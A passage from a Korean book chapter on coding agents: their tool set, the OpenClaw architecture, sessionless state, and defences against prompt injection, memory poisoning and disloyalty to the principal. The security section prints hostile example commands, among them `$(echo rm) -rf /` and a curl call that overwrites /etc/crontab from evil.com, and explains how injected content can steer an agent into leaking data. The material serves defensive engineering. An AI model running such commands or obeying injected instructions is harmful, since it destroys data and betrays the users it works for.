# Coding Agent와 코드 생성

앞 장에서는 컨텍스트 엔지니어링(2·3장)과 도구 설계(4장)를 깊이 살펴보았다. 이 장에서는 이 구성 요소들을 조합해 하나의 핵심 질문에 답한다. **임의의 작업을 처리할 수 있는 범용 Agent의 아키텍처는 어떤 모습인가?**

답은 이렇다. **개방형 작업을 목표로 하는 범용 Agent**의 핵심은 **Coding Agent**(코드를 자율적으로 작성·수정·실행할 수 있는 Agent)와 **파일 시스템**이다. 파일 시스템은 프로그래머가 컴퓨터의 폴더로 프로젝트를 관리하듯 Agent가 코드·데이터·메모리·중간 결과를 저장하는 작업 공간이다. 이 결론은 Manus에서 OpenClaw까지 업계의 실천에서 나왔다. 성공한 개방형 범용 Agent는 모두 소수의 범용 도구(코드 실행, 파일 읽기·쓰기, 검색)를 갖춘 Coding Agent 런타임을 만들고 그 위에 브라우저 자동화, 웹 검색 같은 역량 모듈을 얹는 동일한 패러다임을 따른다. 이 결론이 적용되는 범위와 그렇지 않은 범위는 ‘Manus에서 OpenClaw까지’ 절의 끝에서 설명한다.

코드 생성은 왜 이런 무게를 감당할 수 있을까? 단순히 도구 상자 속 도구 하나가 아니라, 실행 중에 새로운 도구와 역량을 동적으로 만들어 내는 **메타 역량**이기 때문이다. 이 장 후반의 ‘코드: 범용 Agent의 메타 역량’ 절에서는 이 개념과 여섯 가지 적용 방향을 자세히 다룬다.

코드는 두 층위에서 Agent를 돕는다. **생각**의 매체인 코드는 엄밀함을 강제한다. 자연어로 쓴 ‘나이가 18세보다 많고 신원이 확인됨’은 여러 방식으로 읽힐 수 있지만 `age > 18 and is_verified`로 쓰면 해석은 하나뿐이다. **표현**의 매체인 실행 가능한 코드는 그 자체로 논리적 일관성의 증명이 되며, 실행 결과는 자연어가 제공할 수 없는 객관적인 정답 기준을 제공한다.

이 장은 Coding Agent의 기본 역량과 범용 Agent 아키텍처(OpenClaw)에서 출발해 수학 문제 풀이와 콘텐츠 제작부터 시스템 수준의 메타 역량까지, 여러 상황에서 코드 생성을 활용하는 방법을 보여 준다.

## Coding Agent

### Coding은 Agent의 기초 역량이다

**코드 생성은 일부 전문 Agent만의 영역이 아니라 모든 범용 Agent가 갖춰야 할 기초 역량이다.** 오늘날의 SOTA 모델을 사용하면 복잡한 아키텍처 없이도 Agent에 기본적인 coding 역량을 부여할 수 있다.

‘저장소에 남은 TODO 주석을 모두 정리하고 우선순위별로 분류해 Issue를 생성하라’는 전형적인 작업을 생각해 보자. 이 작업에는 디렉터리 구조 탐색(ls/glob), 코드 읽기(read), 파일 수정(edit/write), 명령 실행(bash), 패턴 검색(grep/search)이 필요하다. 이 다섯 범주의 작업은 Coding Agent가 수행하는 핵심 동작을 거의 모두 포괄하며, 아래의 일곱 가지 도구도 여기에서 나온다. 엄밀히 말해 다섯 범주는 여섯 도구와 자연스럽게 대응하고, 일곱 번째인 코드 인터프리터는 ‘코드 실행·계산’을 담당한다. 일부 구현에서는 이를 Bash에 통합하기도 한다. 따라서 일곱 도구는 표준화한 참조 집합이지 다섯 범주와 엄격히 일대일로 대응하는 목록은 아니다.

기본적인 Coding Agent에는 다음 일곱 가지 핵심 도구만 있으면 된다.

1. **코드 인터프리터**: 주 시스템과 격리되어 코드 실행 오류가 호스트에 영향을 미치지 않는 안전한 실행 공간인 샌드박스 환경에서 Python 코드를 안전하게 실행한다.
2. **Bash Shell**: 테스트 케이스 실행이나 특수 형식 파일 처리 같은 명령을 터미널에서 실행한다.
3. **파일 읽기 도구**: 코드, 설정, 문서, 로그 등을 읽는다.
4. **파일 쓰기 도구**: 새 파일을 만들거나 기존 파일 전체를 덮어쓴다.
5. **파일 편집 도구**: 기존 파일을 부분적으로 수정한다. 코드 유지 보수와 반복 개선의 핵심 작업이다.
6. **파일 이름 검색 도구(Glob)**: 패턴 일치로 파일 시스템에서 대상 파일을 빠르게 찾는다. 예를 들어 `**/*.py`로 프로젝트의 모든 Python 파일을 찾는다.
7. **파일 내용 검색 도구(Grep)**: 파일 내용에서 특정 텍스트 패턴을 검색한다. 예를 들어 어떤 함수를 호출하는 코드 행을 모두 찾는다.

이 일곱 도구는 거의 모든 Agent 시스템에 적은 비용으로 통합할 수 있는 완전하면서도 최소한인 도구 상자를 이룬다. 구현할 때는 4장에서 소개한 MCP 프로토콜을 통해 모두 표준화된 도구 서비스로 노출할 수 있다. 이 도구 집합은 Coding Agent에 특화된 기본 구성으로, 4장에서 호출 방향과 기능 특성에 따라 분류한 다섯 가지 범용 도구 유형(인지·실행·협업·이벤트 트리거·사용자 커뮤니케이션)과는 다르다. 일곱 가지 핵심 도구는 주로 인지 도구와 실행 도구에 해당한다. 그렇다면 협업·이벤트 트리거·사용자 커뮤니케이션은 어떻게 처리할까? Coding Agent에서는 대개 도구 계층이 아니라 프레임워크가 이를 담당한다. 예를 들어 하위 Agent 위임은 전용 협업 도구가 아니라 프레임워크의 오케스트레이션 로직으로 처리한다.

가장 간단한 작업으로 일곱 도구가 협력하는 방식을 살펴보자. 사용자가 ‘프로젝트의 모든 TODO 주석을 목록으로 정리해 줘’라고 말했다고 하자.

```
Agent(생각): TODO가 들어 있는 모든 코드 행을 찾아야 한다.
Agent → Grep("TODO", glob="**/*.py")          # 파일 내용 검색
도구 반환:
  src/api.py:42: # TODO: 속도 제한 추가
  src/db.py:15:  # TODO: PostgreSQL로 마이그레이션
  tests/test_api.py:8: # TODO: 엣지 케이스 테스트 추가

Agent(생각): TODO 3개를 찾았다. 목록으로 정리해 파일에 쓰자.
Agent → Write("TODO_LIST.md", content="...")   # 파일 쓰기
도구 반환: 파일 생성 완료

Agent: 완료했습니다. TODO 항목 3개를 찾았으며 목록은 TODO_LIST.md에 저장했습니다.
```

전체 과정에서는 Grep(내용 검색)과 Write(파일 쓰기)라는 두 도구만 사용했다. ‘모듈별 TODO 수를 집계하고 막대 차트를 그려라’처럼 작업이 더 복잡하다면 Agent는 코드 인터프리터로 Python 코드를 실행해 통계를 계산하고 차트를 그릴 수도 있다. 일곱 도구는 하나씩 보면 단순하지만 조합하면 놀라울 만큼 폭넓은 작업을 처리한다.

왜 모든 범용 Agent에 coding 역량이 필요할까? 코드 생성은 프로그램 작성에 그치지 않고 문제를 푸는 범용 수단이기 때문이다. 수학 문제를 만나면 Agent는 코드를 작성해 솔버로 정확한 답을 구할 수 있다. 비즈니스 규칙을 명확히 고정해야 할 때 코드는 어떤 자연어 설명보다 정밀하다. 필요한 도구가 없으면 그 자리에서 직접 만들 수 있고, 데이터 형식이 바뀌면 새로운 파싱 로직을 생성할 수 있다. 뒤에서 각 상황을 하나씩 자세히 살펴본다. 기본 coding 역량을 갖춘 Agent는 단순한 일곱 도구만으로도 새로운 요구가 생길 때마다 자신의 역량 경계를 확장할 수 있다.

### 사례: Manus에서 OpenClaw까지—범용 Agent의 Coding 코어

Manus로 대표되는 범용 Agent 제품은 Deep Research, Computer Use, Coding이라는 세 가지 주요 역량을 하나의 시스템에 통합한다. 이는 수많은 실천이 반복해서 입증한 통찰을 가리킨다. **Coding Agent와 파일 시스템의 결합은 개방형 범용 Agent의 가장 근본적인 기술 기반이다.** 오픈 소스 프로젝트 OpenClaw도 비슷한 접근 방식을 취하며 동일한 아키텍처 패러다임을 공개적으로 보여 준다.

왜 나머지 두 역량이 아니라 Coding Agent가 핵심일까? 효율적인 콘텐츠 생성은 거의 모두 결국 코드로 귀결되기 때문이다. PPT의 본질은 OOXML(Office Open XML, Microsoft가 만든 개방형 사무 문서 표준) 형식의 코드다. Word 문서와 PDF 보고서는 코드로 생성할 수 있고, 데이터 분석과 시각화는 Python 스크립트로 수행한다. GUI 조작에서 성공한 브라우저 작업 순서조차 재사용 가능한 RPA(로봇 프로세스 자동화, Robotic Process Automation) 코드로 굳힐 수 있다(Computer Use 자체는 9장, 작업 순서를 굳히는 메커니즘은 8장에서 자세히 다룬다). Deep Research의 검색과 정보 종합도 코드로 구동하는 웹 요청과 파싱으로 구현할 수 있다. Computer Use는 범용성이 더 높지만 같은 작업을 코드나 API로 직접 처리하는 방식보다 비용·지연·안정성 면에서 크게 뒤처진다. 코드 생성은 가장 효율적이고 비용이 낮으며 재사용성이 뛰어난 역량 기반이다.



구체적인 실행 흐름으로 이 아키텍처를 이해해 보자. 사용자가 ‘지난 분기의 판매 데이터를 분석하고 요약 보고서를 만들어 줘’라고 요청했다고 하자.

1. **메모리 읽기**: Agent는 `MEMORY.md`를 읽고 사용자가 PDF 형식의 보고서를 선호하며 데이터 소스는 Google Sheets라는 사실을 발견한다.
2. **도구 호출**: 웹 검색 모듈로 Google Sheets API 사용법을 찾고 코드 실행을 통해 데이터를 내려받는다.
3. **코드 작성**: Python 데이터 분석 스크립트(pandas 집계, matplotlib 시각화)를 생성한다.
4. **산출물 생성**: 분석 결과를 `report.pdf`에, 차트를 `charts/` 디렉터리에 쓴다.
5. **메모리 갱신**: ‘사용자의 판매 데이터는 Google Sheets에 있으며 ID는 xxx’라고 `MEMORY.md`에 기록해 다음에는 다시 묻지 않는다.

전체 과정에서 파일 시스템은 정보 흐름의 중심축이다. 메모리는 파일에서 읽고 산출물은 파일에 쓰며 경험도 파일로 저장한다.

**Agent의 중추인 파일 시스템.** OpenClaw 설계에서 파일 시스템은 단순한 데이터 저장소를 훨씬 넘어 Agent의 메모리·지식·역량을 잇는 중추다. Agent의 장기 메모리는 `MEMORY.md`(상위 수준의 사실과 사용자 선호)와 날짜별로 보관하는 Markdown 로그에 저장된다. 벡터 데이터베이스 대신 Markdown을 선택한 결정은 직관에 어긋나 보이지만 매우 효과적이다. 사용자가 파일을 직접 열어 Agent의 메모리를 읽고 수정할 수 있고(Agent가 잘못 기억한 내용은 그 행만 지우면 된다), Markdown은 시간 순서를 자연스럽게 보존해 의미 검색에서 생기는 시간 혼동을 피하며, Git으로 버전을 관리하고 되돌릴 수 있다.

더 중요한 점은 Agent가 파일을 쓸 수 있으므로 파일 쓰기를 통해 **스스로 진화**할 수 있다는 사실이다. Agent가 어떤 작업을 처음 수행하며 전에는 몰랐던 핵심 정보(예를 들어 어느 은행에 전화했더니 본인 확인을 위해 계좌 개설 지점 주소가 필요하다는 사실)를 발견하면 이 경험을 지식 베이스에 기록하고, 다음에 같은 작업을 할 때 자동으로 불러온다. 이처럼 ‘쓸수록 똑똑해지는’ 메커니즘은 본질적으로 8장에서 깊이 다룰 외부화 학습 패러다임을 구체적으로 실천한 것이다.

**적용 범위: 어떤 Agent가 Coding을 핵심 아키텍처로 삼는가.** ‘Coding Agent는 범용 Agent의 핵심이다’라는 결론은 주로 **개방형 작업을 목표로 하는 범용 Agent**, 즉 작업 경계가 불확실하고 산출물 형식이 다양한 Deep Research, 콘텐츠 생성, 데이터 처리 같은 상황에 적용된다. 이런 상황에서는 필요한 도구를 모두 미리 열거할 수 없다. 코드 생성은 메타 역량으로서 역량 경계를 동적으로 확장하는 가장 경제적인 경로를 제공하므로 아키텍처의 핵심이 된다. 반면 수직 도메인의 고객 서비스 Agent나 음성 비서처럼 작업 공간이 비교적 닫혀 있는 Agent도 있다. 이들의 핵심 아키텍처는 고정된 비즈니스 프로세스, 도메인 도구, 대화 전략을 중심으로 구성되며 코드는 아키텍처의 중추가 아니라 도구 상자 속 도구 하나에 가깝다(뒤에서 고객 서비스 상황을 시뮬레이션하는 벤치마크인 τ-bench 사례를 보면 코드가 바로 정책 검증 도구 역할을 한다). 그러나 이런 Agent에도 coding은 없어서는 안 될 기초 역량이다. 정밀 계산, 데이터 처리, 규칙 검증은 모두 coding에 의존한다. 이는 앞 절의 ‘Coding은 Agent의 기초 역량’이라는 주장과 이어진다. Coding을 핵심 아키텍처로 삼을지는 상황에 따라 다르지만, coding 역량을 갖추는 것은 모든 Agent의 공통 기준선이다.

### Sessionless 설계

이제 ‘언제나 사용 가능한’ 상호작용 방식과 보안 아키텍처라는 두 가지 설계를 살펴보자. 얼핏 Coding Agent 주제와 무관해 보이지만, 두 설계는 Agent가 코드 실행 환경과 파일 시스템 상태를 관리하는 방식을 직접 결정한다. 이는 바로 Coding Agent의 핵심 관심사다. Coding Agent가 단계별로 작동하는 방식을 먼저 알고 싶은 독자는 뒤의 ‘Coding Agent의 전체 작업 흐름’ 절을 먼저 읽고 이곳으로 돌아와 상호작용과 보안 설계를 살펴봐도 좋다.

OpenClaw는 **Sessionless**(세션리스) 설계를 채택한다. 설치하거나 로그인하거나 ‘앱을 여는’ 단계가 없다. Agent는 항상 온라인 상태로 머물며 사용자는 이미 이용하는 메시지 플랫폼에서 언제든 메시지 하나를 보내 응답을 받을 수 있다. 이런 상호작용 방식과 그 배경의 Gateway 메시지 라우팅 및 이벤트 기반 아키텍처는 4장의 사용자 커뮤니케이션 도구 부분에서 자세히 설명했으므로 여기서는 반복하지 않는다. 강조할 점은 이 방식이 성립하기 위한 전제다. 대규모 모델은 새로운 ‘지능 기반’으로 기능할 만큼 성숙했다. 전통적인 운영체제가 하드웨어를 추상화하고 상위 애플리케이션에 통일된 인터페이스를 제공하듯, 대규모 모델은 언어 이해·생각·계획의 복잡성을 추상화해 상위 Agent에 통일된 지능 추상화를 제공한다. 이 기반 덕분에 ‘상시 접속 + 즉시 응답’ 방식을 낮은 비용으로 엔지니어링할 수 있다.

Coding Agent에서 Sessionless의 진정한 엔지니어링 과제는 **코드 실행 환경과 파일 시스템 상태를 메시지 사이에 보존하는 방법**이다. 사용자의 두 메시지는 몇 분 간격일 수도, 며칠 간격일 수도 있다. Agent의 작업은 샌드박스에 설치한 의존성 패키지, 터미널 세션의 작업 디렉터리와 환경 변수, 백그라운드에서 실행 중인 개발 서버, 작성 중인 파일 등 수많은 암묵적 상태에 의존한다. OpenClaw는 상태를 두 계층으로 관리한다. **파일 시스템 상태는 본래 영속적이다.** 작업 공간 디렉터리를 샌드박스 밖의 영속 스토리지에 마운트하므로 코드·데이터·중간 산출물은 메시지나 샌드박스 재시작을 넘어 보존된다. 이것이 ‘Agent의 중추인 파일 시스템’의 또 다른 의미다. **프로세스 상태는 필요에 따라 유지하거나 재구성한다.** 활성 기간에는 샌드박스와 그 안의 터미널 세션을 계속 실행해 메시지마다 콜드 스타트하고 작업 디렉터리로 다시 이동하고 가상 환경을 다시 활성화하는 일을 피한다. 유휴 제한 시간이 지나면 자원을 회수하기 위해 폐기하되, 폐기 전에 직렬화할 수 있는 환경 상태(작업 디렉터리, 환경 변수, 백그라운드 작업 목록)를 작업 공간 파일에 기록하고 다음에 깨어날 때 Agent가 이 기록을 바탕으로 재구성한다. 뒤의 ‘명령 실행 환경의 상태 지속성’ 절에서 다룰 영속 터미널 세션은 이 메커니즘을 단일 작업 안에 적용한 형태다. Sessionless는 같은 문제를 메시지와 날짜를 넘는 시간 범위로 확장한다.

Sessionless가 유지 보수 없이 작동하는 것은 아니다. 사용자의 메시지를 받을 때마다 **전체 궤적과 작업 상태를 다시 불러와야** 하므로 상태 직렬화 효율과 궤적 압축 전략이 더 중요해진다. 궤적 압축의 설계 원칙은 2장의 ‘컨텍스트 압축 전략’ 절에서 다뤘고, 이 장은 Sessionless 아키텍처가 요구하는 엔지니어링 절충에 초점을 맞춘다.

### Coding Agent의 보안

이 절에서는 Coding Agent의 방어선을 하나의 완결된 흐름으로 정리한다. 먼저 어떤 위험이 가장 치명적인지 **위협 모델**을 개괄한다. 이어 샌드박스의 네트워크 출구, 파일 시스템, 자원 제한을 다루는 **격리라는 안전망**, 명령의 의미 분석과 보안 검사를 ‘보이지 않게’ 만드는 추측성 실행이라는 **실행 시점 방어**, 마지막으로 다자간 위임에서 Agent가 누구를 섬기는지, AI가 작성한 코드 자체를 신뢰할 수 없을 때 신뢰 경계를 데이터 계층으로 내리는 방법이라는 **신뢰와 충성도**를 논한다. 위협 모델·충성도·신뢰 경계는 모든 Agent에 적용되며 샌드박스와 명령 분석은 Coding Agent에 특화된 추가 요소다.

이러한 ‘주권 Agent’ 패러다임은 심각한 보안 과제도 가져온다. Coding Agent에는 파일 읽기·쓰기, 명령 실행, 네트워크 접근 권한이 있으므로 악성 지시가 주입되면 되돌릴 수 없는 피해를 일으킬 수 있다. 개발자이자 독립 연구자인 Simon Willison은 이 위험을 유명한 **치명적인 세 가지 요소**(Lethal Triad)로 요약했다. 세 요소가 모두 갖춰지면 완전한 공격 루프가 형성되어 시스템이 고위험 상태에 놓인다.

1. **개인 데이터 접근**: Agent가 사용자 파일과 비밀번호 관리자를 읽을 수 있다.
2. **신뢰할 수 없는 콘텐츠 노출**: 처리하는 이메일과 웹 페이지에 악성 페이로드가 들어 있을 수 있다.
3. **외부 통신 역량**: 이메일을 보내고 명령을 실행할 수 있다.

이렇게 공격 루프가 닫힌다. 신뢰할 수 없는 콘텐츠에 숨은 악성 지시가 Agent에 들어와 개인 데이터를 읽게 한 뒤 외부 채널로 빼돌린다. 이 세 요소가 모두 존재하는 것만으로 충분히 위험하며 다른 조건은 필요하지 않다. 저자는 여기에 네 번째 차원인 **영속 메모리**를 덧붙인다. 이는 나란히 놓이는 네 번째 필요조건이 아니라 공격 증폭기다. 공격자는 겉으로 무해해 보이는 편향이나 악성 지시를 Agent의 장기 메모리에 기록해 여러 세션에 걸쳐 잠복시켰다가 적절한 시점에 작동하게 만들 수 있다. 일회성 공격을 장기간 잠복하며 누적되는 위협으로 바꾸는 것이다.

이 네 항목은 데이터 경계, 입력 신뢰 경계, 출력 영향 경계, 세션 간 경계라는 네 종류의 경계로 요약할 수 있다. OpenClaw 같은 전체 권한 로컬 Agent는 네 가지를 모두 갖추므로 보안은 이런 Agent가 반드시 직면해야 하는 핵심 과제다.

폐쇄형 상용 Agent가 보수적인 권한 전략을 택하는 이유도 여기에 있다. Claude Cowork(Claude Code의 agentic 아키텍처를 재사용하며 로컬 파일을 읽고 쓰고 여러 사무용 애플리케이션에서 다단계 작업을 처리할 수 있는 Anthropic의 지식 업무용 범용 Agent)가 그 예다. 기술적으로 불가능해서가 아니라 보안 위험이 너무 크기 때문이다. 프롬프트 주입 위협은 입력 필터링만으로 거의 막을 수 없다. 모든 공격을 식별하는 것이 아니라, 지시가 주입된 Agent가 위험한 작업을 실제로 실행할 기회를 얻지 못하게 해야 한다. 앞의 두 장에서는 방어 체계를 계층별로 세웠다. **컨텍스트 계층 방어**인 외부 콘텐츠 출처 표시, 구조화된 역할 격리, 입력 정제는 2장의 프롬프트 주입 절에서 다뤘다. **실행 계층 방어**인 Sidecar 독립 검토, 사람의 개입(Human in the loop), 최소 권한과 권한 분리는 4장에서 설명했다. 같은 컨텍스트 안의 Agent는 자신에게 지시가 주입되었는지 판단하기 어려우므로 중요 작업은 반드시 해당 컨텍스트 밖의 메커니즘이 검토해야 한다. 이 원칙은 두 장을 관통한다. 이 절에서는 Coding Agent에 특화된 세 가지 추가 요소만 다룬다.

- **명령 의미 분석**: Shell 명령의 조합 폭증 앞에서 키워드 블랙리스트는 무용지물이다. 명령의 실제 효과를 의미 수준에서 이해해야 한다(이 절 뒤에서 자세히 설명한다).
- **샌드박스 격리와 네트워크 출구 제어**: 코드 실행은 Coding Agent에 고유한 공격 표면이다. 격리 수준과 출구 전략의 엔지니어링 선택은 뒤에서 다룬다.
- **영속 메모리의 세션 간 방어**: 치명적인 세 가지 요소에 더해 이 장에서 특별히 강조하는 확장 항목이다. 장기 메모리에 기록할 콘텐츠를 외부 콘텐츠와 같은 수준으로 신뢰성 검토해 악성 지시가 `MEMORY.md`에 잠복하여 장기간 작동하지 못하게 해야 한다.

이 세 가지 추가 요소는 각각 검증·실행·데이터 계층에 놓이며 앞의 두 장에서 세운 방어 체계를 보완한다. 이러한 전략이 위험을 완전히 없애지는 못하지만 Agent의 공격 표면을 줄일 수는 있다.

**안전망으로서의 격리: 코드 실행 샌드박스의 엔지니어링 선택.** 샌드박스는 단순한 스위치 하나가 아니라 일련의 엔지니어링 결정이다. 4장에서는 ‘왜 격리해야 하는가’, 격리 메커니즘의 계층 원리(프로세스 수준 격리, 컨테이너, microVM이라는 3단계 스펙트럼), ‘개인 로컬 컴퓨터에는 프로세스 수준, 단일 테넌트 클라우드에는 컨테이너, 다중 테넌트나 신뢰할 수 없는 코드에는 microVM/gVisor’라는 선택 규칙을 이미 설명했다. 여기서는 이를 반복하지 않고 Coding Agent를 구현할 때 피할 수 없지만 4장에서 다루지 않은 네 가지 요소, 즉 네트워크 출구 관리, 파일 시스템 마운트 범위, 자원 제한, 영속 세션과 격리의 조화를 보충한다.

**네트워크 출구 제어.** 가장 쉽게 간과하지만 가장 중요한 항목이다. 기본적으로 네트워크를 차단하고 화이트리스트 프록시를 통해 한정된 목적지(패키지 저장소, 문서 사이트, 작업에 명시적으로 필요한 API)만 필요할 때 허용한다. 치명적인 세 가지 요소 중 3번 ‘외부 통신 역량’을 돌아보면 네트워크 출구 제어는 그에 대응하는 실행 계층 방어다. 프롬프트 주입에 성공한 악성 코드가 샌드박스 안의 민감한 데이터를 읽더라도 출구가 없으면 전송할 수 없다. 모든 주입을 식별하려는 것보다 데이터 유출 통로를 차단하는 편이 훨씬 결정적인 방어선이다.

**파일 시스템 격리 범위.** 소스 코드 디렉터리는 읽기 전용으로 마운트한다. Agent는 편집 도구로 코드를 수정하고 생성된 패치를 검토한 뒤 디스크에 반영하거나, 복사본을 쓰기 가능한 작업 공간에 마운트한다. 별도의 쓰기 가능한 작업 공간 디렉터리에는 생성물과 중간 파일을 둔다. 자격 증명 파일(`~/.ssh`, 키, token)은 아예 샌드박스에 마운트하지 않는다. 보이지 않는 데이터는 유출할 수 없으며 이는 치명적인 세 가지 요소 중 1번에 대응한다.

**자원 제한과 시간 제한.** CPU·메모리·디스크 할당량과 실제 경과 시간 제한을 설정해 무한 루프, fork 폭탄(프로세스가 빠르게 자가 복제해 시스템이 멈출 때까지 자원을 소진하는 공격), 끝없는 디스크 쓰기를 방어한다. 한 가지 실용적인 세부 사항이 있다. 시간이나 자원 제한을 넘겼을 때 프로세스를 조용히 죽이지 말고 ‘120초가 지나 실행을 종료했습니다. 마지막 출력은 다음과 같습니다…’ 같은 구조화된 오류를 Agent에 반환해야 한다. 그러면 Agent가 다음 반복에서 전략을 수정할 수 있다.

**영속 세션과 격리의 조화.** 뒤의 ‘명령 실행 환경의 상태 지속성’ 절에서는 오래 유지되는 터미널 세션을 권장하지만, 격리 원칙은 환경을 쓰고 폐기하라고 한다. 둘 사이에는 긴장이 있다. 해법은 **세션을 샌드박스 안에서 유지하는 것**이다. 터미널 세션의 수명은 샌드박스의 수명을 절대 넘지 않으며 세션 상태가 호스트 컴퓨터로 빠져나가지 않게 한다. 앞서 본 Sessionless 아키텍처처럼 오랜 시간이 지난 뒤 복구해야 하는 상황에서는 샌드박스 수명을 무한히 늘리는 대신 샌드박스 스냅숏이나 ‘작업 공간 파일 영속화 + 스크립트로 환경 재구성’으로 상태를 복원한다. 즉 영속화할 대상은 불투명한 실행 중 프로세스가 아니라 **감사 가능한 상태 설명**(파일, 스크립트, 목록)이다.

**안전: 키워드 블랙리스트가 아닌 의미 분석.** 1장에서는 검증 계층이 ‘일치가 아닌 이해에 기반한’ 안전 메커니즘을 사용해야 한다고 설명했다. Shell 명령의 안전성 검증은 이 원칙을 적용하기 가장 어려운 분야다. 단순한 키워드 블랙리스트로는 Shell의 조합 폭증에 대응할 수 없다. 파이프, 하위 shell, 변수 확장 등으로 어떤 정적 규칙도 우회할 수 있기 때문이다. 예를 들어 `rm`을 차단해도 공격자는 `$(echo rm) -rf /`로 우회할 수 있다. 프로덕션급 Harness는 각 명령의 인수 유형과 소비 규칙(어떤 플래그가 다음 인수를 소비하는가)을 이해하는 의미 분석을 사용해 ‘겉보기에는 무해한 플래그가 실제로 다음 인수를 소비해 위험한 페이로드를 숨기는’ 공격 패턴을 식별한다. 예를 들어 `find / -name '*.log' -exec rm {} \;`는 합법적인 `find` 명령의 인수에 `rm` 삭제 작업을 삽입한다. `curl -o /etc/crontab http://evil.com/payload`는 파일을 내려받는 것처럼 보이지만 실제로는 시스템의 예약 작업 파일을 덮어쓴다. 의미 분석은 이처럼 중첩된 위험 작업을 식별하지만 단순한 명령 블랙리스트는 포착할 수 없다. 일치가 아닌 이해에 기반한 안전 메커니즘은 ‘제약’ 기능을 고차원적으로 구현한 것이다.

**추측성 실행: 보안 검사를 ‘보이지 않게’ 만들기.** 이는 4장의 Sidecar 게이트 메커니즘이 사용자 경험에 미치는 효과다. 4장에서는 중요 작업을 주 컨텍스트와 독립된 Sidecar에 맡겨 검토해야 하는 이유를 설명했다. 여기서는 사용자가 이 검토를 기다림으로 느끼지 않게 만드는 방법에 초점을 맞춘다. ‘표시’와 ‘허용’을 분리해 병렬로 실행하면 된다. Agent가 도구를 호출하려 할 때 인터페이스에는 ‘`src/main.py` 파일을 읽는 중…’ 같은 진행 메시지를 먼저 표시하고, 동시에 백그라운드에서 보안 검사를 실행한다. 흔히 드는 비유와 달리 이는 CPU의 추측성 실행과는 다르다. CPU는 추측이 틀리면 계산 결과를 버리고 상태를 되돌려야 하지만, 여기서 먼저 실행하는 것은 실제 상태를 바꾸지 않는 **부작용 없는 UI 안내**뿐이다. 검사를 통과하지 못해도 되돌릴 필요 없이 안내를 ‘확인 대기 중’으로 바꾸면 된다. 대부분 보안 검사는 사용자가 알아채기 전에 끝나므로 추가 지연을 거의 느끼지 못하고, 빠르게 판단할 수 없을 때만 실제로 멈추어 확인을 기다린다. 안전 때문에 사용자 경험을 희생하지 않는 것이 Harness 설계의 최고 경지다.

**Agent는 누구를 섬기는가: 다자간 위임에서의 충성도.**

앞의 보안 메커니즘은 ‘명령이 악의적으로 실행되는 일’을 막는다. 하지만 더 미묘한 보안 문제인 **위임자 충성도**(principal loyalty)가 있다. **Agent는 과연 누구의 편인가?** 모델은 ‘내게 말을 거는 사람을 최선을 다해 돕는다’라는 순진한 기본 원칙으로 학습되지만, 실제 Agent는 소유자를 대신해 행동하면서 이해관계가 충돌하는 제3자를 상대하는 **다자간 위임** 상황에 놓이는 경우가 많다. 사용자를 대신해 가격을 협상하는 Agent가 마주한 상대는 ‘도움이 필요한 사용자’가 아니라 **협상 상대**다. 이때 ‘말하는 사람을 돕는다’라는 기본값은 위험하다. 상대가 말만 걸어도 Agent를 회유하기 시작할 수 있기 때문이다.

최전선 모델을 이런 상황에 넣으면 양 끝에서 모두 실패하는 뚜렷한 **충성도 스펙트럼**이 나타난다[^ch5-1]. 한쪽 끝은 **지나치게 정직해** 위임자의 민감한 정보(예: ‘우리 측 최저선은 12,000이다’)를 상대에게 그대로 알려 주고 몇 차례 압박받으면 굴복한다. 다른 쪽 끝은 **지나치게 의심해** 위임자의 정당한 요청조차 거부하고 작업을 완수하지 못한다. 어려운 점은 두 실패가 시소처럼 연결되어 있다는 것이다. 정보 유출을 완전히 막으려 하면 과잉 거부 쪽으로 기울기 쉬워 둘을 동시에 해결하기 어렵다.

이는 Coding Agent에 특히 중요하다. 저장소에서 읽은 신뢰할 수 없는 콘텐츠, 도구가 반환한 출력, 제3자 MCP 서버가 보낸 지시는 모두 Agent를 회유하려는 ‘상대’다. **프롬프트 주입은 본질적으로 Agent를 회유하려는 시도다**(2·4장). 따라서 Harness 계층은 Agent가 누구에게 충성해야 하는지 명시적으로 고정해야 한다. 위임자의 지시에 가장 높은 우선순위를 부여하고 외부 상호작용자에게서 온 모든 콘텐츠는 기본적으로 ‘참고할 수 있지만 지시 효력은 없는 데이터’로 낮춘다. 효과적인 **충성도 행동 수칙**을 시스템 프롬프트에 넣는 방법도 있다. 위임자의 민감한 정보와 그 ‘존재 여부’까지 보호한다. 거부할 때 거부 항목을 하나씩 읽어 주지 않는다(그 자체가 정보 유출이다). 내부의 최저선은 외부에 공개할 입장이 아니다. 위임자가 분명하고 구체적으로 지시한 일만 실행한다. 반복되는 압박을 견딘다. 본질적으로 Harness는 모델에 기본적으로 없는 입장을 부여한다. **위임자에게는 절대적으로 충성하고 외부 상호작용자는 신중하게 대한다.**

[^ch5-1]: 이 충성도 스펙트럼과 행동 수칙의 전체 평가는 Li, Bojie and Noah Shi. *Whose Side Is Your Agent On? Multi-Party Principal Loyalty in LLM Agents.* arXiv:2606.30383, 2026을 참고하라.

**AI가 작성한 코드 자체를 신뢰할 수 없을 때: 신뢰 경계 내리기.**

